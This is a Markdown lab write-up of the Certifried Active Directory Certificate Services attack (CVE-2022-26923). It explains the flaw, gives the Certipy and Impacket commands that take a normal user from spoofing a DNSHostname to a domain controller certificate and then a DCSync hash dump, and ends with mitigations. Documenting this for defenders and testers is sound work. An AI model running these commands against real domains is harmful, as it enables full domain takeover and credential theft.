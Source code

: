 ![Certifried-diagram](Certifried-diagram.jpg)

# The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from **templates** in a **Certificate Signing Request** (CSR).
3. There are **two** types of templates available in **ADCS** by default: User and Computer.
4. Those templates are **accessible to anyone** in the `Domain Users` or `Domain Computers` groups.
5. Those templates **allow the certificate holder to authenticate** with them.
6. *When generating a certificate for a computer object*, the template will check its `DNSHostname` property and **will generate the certificate based on that**.
7. **Meaning:** *if the computer's* `DNSHostname` *says it's a Domain Controller,* you will get a certificate for a **Domain Controller!**
8. *By default,* **any authenticated user** can join up to 10 computers to the domain.
9. *When a user joins a computer to the domain,* he can modify its `DNSHostname` property.
10. *Combining the last two points,* a user can *spoof* the `DNSHostname` to *forge* a certificate as a **Domain Controller**.
11. *With a Domain Controller's certificate,* the user *can obtain* the computer account's **NTLM** hash.
12. *And with that hash,* can he *pose* as a legit **Domain Controller** and *request a full copy of the domain's hashes* (a.k.a **perform a `DCSync` attack**).

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft (https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).
2. Reducing certificate template permissions.
3. Reducing the default user's machine quota to zero. Only Administrators should have this privilege.

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all (https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- **Oliver Lyak** (https://twitter.com/ly4k_) who discovered and reported the vulnerability and created the `Certipy` tool.
- **SecureAuthCorp** for the awesome **Impacket** scripts of course :D